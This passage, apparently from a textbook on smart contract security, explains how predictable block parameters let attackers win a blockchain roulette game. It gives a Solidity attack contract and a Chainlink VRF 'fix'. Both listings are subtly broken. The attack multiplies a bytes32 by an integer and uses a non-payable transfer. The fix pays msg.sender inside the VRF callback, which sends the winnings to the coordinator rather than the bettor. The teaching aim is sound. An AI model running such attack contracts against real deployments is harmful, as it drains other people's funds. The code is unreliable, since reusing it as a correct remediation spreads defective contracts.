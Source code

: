 Because parameters like `block.number`, `block.difficulty`, and `blockhash` are miner-influenced, attackers may even lease mining hardware to mine many blocks rapidly, select favorable outcomes, and discard the rest (a practice known as **block reorganization or selfish mining**).

```solidity
pragma solidity ^0.8.0;
contract RouletteBlockAttack {
	address owner;
	constructor() public payable {owner = msg.sender;}
	function attack(RouletteBlock rouletteblock) public {
		uint answer = uint((blockhash(block.number - 1) * block.difficulty) % 15);
		rouletteblock.guess(answer);
	}
	function withdraw() public returns (uint) {
		require(owner == msg.sender);
		msg.sender.transfer(address(this).balance);
	}
}
```

**Remediation:**
As with the timestamp vulnerability, avoid using miner-controllable parameters. Use Chainlink VRF to generate provably fair and verifiable random numbers. The improved contract is shown in Listing \ref{listing\:chap6\_block-other-parameters-fixed}.

```solidity
pragma solidity ^0.8.0;
import "@chainlink/contracts/src/v0.8/VRFConsumerBase.sol";
contract RouletteBlock is VRFConsumerBase {
	uint guessvalue;
	bytes32 internal keyHash;
	uint256 internal fee;
	uint256 public randomResult;
	constructor(address _VRFCoordinator, address _LinkToken, bytes32 _keyHash, uint256 _fee) VRFConsumerBase(_VRFCoordinator, _LinkToken) public payable {
		keyHash = _keyHash;
		fee = _fee;
	} // initially fund contract
	function fulfillRandomness(bytes32 requestId, uint256 randomness) internal override {
		randomResult = randomness;
		uint random = randomResult;
		if(random == guessvalue) { // winner
			payable(msg.sender).transfer(address(this).balance);
		}
	}
	// fallback function used to make a bet
	function guess(uint _guessvalue) public {
		guessvalue = _guessvalue;
		requestRandomness(keyHash, fee);
	}
}
```